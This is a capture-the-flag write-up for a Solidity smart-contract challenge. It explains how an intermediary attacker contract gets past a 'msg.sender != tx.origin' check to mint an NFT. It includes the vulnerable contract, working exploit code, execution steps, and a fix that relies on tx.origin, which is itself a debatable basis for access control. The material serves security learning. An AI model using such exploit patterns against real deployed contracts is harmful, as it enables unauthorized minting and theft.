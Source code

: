 # Challenge Overview
- Name: Challenge 2
- Category: Smart Contract Exploitation
- Objective: Mint the NFT associated with Challenge 2.

# Contract Code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface INFTFlags {
    function mint(address _recipient, uint256 _challengeId) external;
}

contract Challenge2 {
    address public nftContract;

    constructor(address _nftContract) {
        nftContract = _nftContract;
    }

    function justCallMe() public {
        require(msg.sender != tx.origin, "Not allowed");
        INFTFlags(nftContract).mint(tx.origin, 2);
    }
}
```


# Vulnerability Analysis

The function justCallMe checks that the caller `msg.sender` is not the transaction origin `tx.origin`. This implies that the function must be called through a contract rather than directly by an EOA (Externally Owned Account). However, there is no additional validation, which makes it exploitable.

# Exploit Execution

To exploit this vulnerability, we can write a simple attacker contract to bypass the require check. By deploying and calling the function through a contract, we can successfully mint the NFT:

```solidity
interface IChallenge2 {
    function justCallMe() external;
}

contract Exploit {
    IChallenge2 public target;

    constructor(address _target) {
        target = IChallenge2(_target);
    }

    function exploit() public {
        target.justCallMe();
    }
}
```

## Execution Steps:
1. Deploy the Exploit contract with the address of the Challenge2 contract.
2. Call the exploit function of the deployed Exploit contract.

This successfully meets the condition of `msg.sender != tx.origin` and mints the NFT.

# Result & Impact

This exploit allows any user to mint an NFT without proper authorization. The lack of proper access control undermines the security of the contract and the exclusivity of the NFT.

# Fix Recommendation

To mitigate this vulnerability, consider:
1. Implementing proper access control using Ownable or a whitelist mechanism.
2. Validating the caller against a list of authorized addresses.
3. Using a more secure authentication mechanism that cannot be bypassed by contracts:

```solidity
require(msg.sender == tx.origin && authorized[msg.sender], "Not allowed");
```

This would ensure that only authorized EOAs can call the function, preventing unauthorized minting.